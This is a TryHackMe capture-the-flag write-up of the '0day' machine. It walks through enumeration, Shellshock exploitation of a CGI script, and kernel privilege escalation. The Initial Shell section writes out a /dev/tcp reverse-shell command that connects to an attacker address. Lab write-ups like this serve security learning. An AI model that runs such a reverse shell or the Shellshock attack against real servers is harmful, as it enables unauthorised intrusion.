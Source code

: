 ```yaml
---
title: 0day Machine - Writeup
author: Sujit Suryawanshi
date: 2020-11-09 15:10:00 +0800
categories: [TryHackMe]
tags: [tryhackme, thm, 0day]
---
```


![Desktop View]({{ "/assets/img/thm-machines/0day-main.png" | relative_url }})

---

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Hey All, Hope you all are safe and doing well. Today I'm gonna do 0day machine by Ryan Montgomery on TryHackMe.It's really good machine on ShellShock Vulnerability which is available in cgi-bin directory with test.cgi file name and the Privilage Escalation is also awesome because of the old kernel version.

So what is exactly ShellShock Vulnerability?

As per NetSparker, Shellshock is a security bug causing Bash to execute commands from environment variables unintentionally. In other words if exploited the vulnerability allows the attacker to remotely issue commands on the server, also known as remote code execution.
Since the environment variables are not sanitized properly by Bash before being executed, the attacker can send commands to the server through HTTP requests and get them executed by the web server operating system.
The ShellShock Vulnerability, discovered by Stephane Chazelas was assigned the CVE identifier CVE-2014-6271.

Now let's go for practical to understand and hack this machine.

<span style="color:#ff5555">This blog is meant for educational purposes only.</span>

---

<strong><span style="color:#ff5555">Port & Service Enumeration</span></strong>

---

First starting with Nmap, I found two open ports that is Port 22 and Port 80. Here Port 22 is running OpenSSH 6.6.1p1 service and Port 80 is running Apache - 2.4.7 service on Ubuntu Operating System.

![Desktop View]({{ "/assets/img/thm-machines/0day-nmap.png" | relative_url }})
---

<strong><span style="color:#ff5555">Web Enumeration</span></strong>

---
For further enumeration, I moved to Port 80 to check which kind of web application is running.

![Desktop View]({{ "/assets/img/thm-machines/0day-website.png" | relative_url }})

So the web application was static. Lets run Dirsearch with common.txt to discover more content/directories of this web application.
On other hand I started Nikto on this web application to identify common vulnerabilities.

The Dirsearch gave me below result which contains a lot of sensitive directories.

![Desktop View]({{ "/assets/img/thm-machines/0day-dirsearch.png" | relative_url }})

I started visiting one by one to enumerate and to find something fruitful.

In **/admin** directory, I got nothing and it was totally blank page so I moved towards **/backup** directory and it gave me Private SSH key.

![Desktop View]({{ "/assets/img/thm-machines/0day-ssh-key.png" | relative_url }})

Next, I saved that key and tried to login into server with different usernames such as root, admin, ryan etc but none them worked. The SSH key was asking password to login and I was doubting on this SSH key as it can be rabbit hole.

![Desktop View]({{ "/assets/img/thm-machines/0day-ssh-error.png" | relative_url }})

At last I moved further to enumerate other directories of web application.

---

<strong><span style="color:#ff5555">Initial Shell</span></strong>

---

But before that I checked Nikto's result and it gave me a lot of hints.

![Desktop View]({{ "/assets/img/thm-machines/0day-nikto.png" | relative_url }})

In above screenshot you can see Nikto gave one uncommon header which is actually a CVE id of ShellShock Vulnerability and also it gave /cgi-bin/test.cgi file.
For exploitation, I googled CVE id and checked one Github page there I got Oneliner to test and confirm the ShellShock Vulnerability.

![Desktop View]({{ "/assets/img/thm-machines/0day-github.png" | relative_url }})

After trying above Oneliner, I confirmed the ShellShock Vulnerability and continued to get reverse shell of server.

![Desktop View]({{ "/assets/img/thm-machines/0day-oneliner.png" | relative_url }})

After using Onliner with **sh>&/dev/tcp/10.10.10.10/1337 0>&1** command, I got initial shell. Here we are redirecting the output of bash on 10.10.10.10 with Port 1337 using /dev/tcp connection.

![Desktop View]({{ "/assets/img/thm-machines/0day-reverse-shell.png" | relative_url }})

Now it's time to upgrade our shell and start enumeration to get higher privileged user.

I used python tty and set PATH environment to upgrade my shell.

After going to **/home** directory I got **ryan** user and also I was able to read his flag as the read permission was given.

![Desktop View]({{ "/assets/img/thm-machines/0day-user-flag.png" | relative_url }})

---

<strong><span style="color:#ff5555">Privilege Escalation: Root</span></strong>

---

After running **LinPeas.sh** for Privilege Escalation, I got vulnerable Linux Kernel version.

![Desktop View]({{ "/assets/img/thm-machines/0day-linpeas.png" | relative_url }})

Here SearchSploit helped me to get the exploit.

![Desktop View]({{ "/assets/img/thm-machines/0day-searchsploit.png" | relative_url }})

After running the exploit, I got the root!!!

![Desktop View]({{ "/assets/img/thm-machines/0day-root-flag.png" | relative_url }})

If you want detailed explanation about this Privilage Escalation vulnerability then go [here](https://www.halfdog.net/Security/2015/UserNamespaceOverlayfsSetuidWriteExec/)

<span style="color:#ff5555">**Thanks for reading this writeup and all suggestions are welcome.**</span>
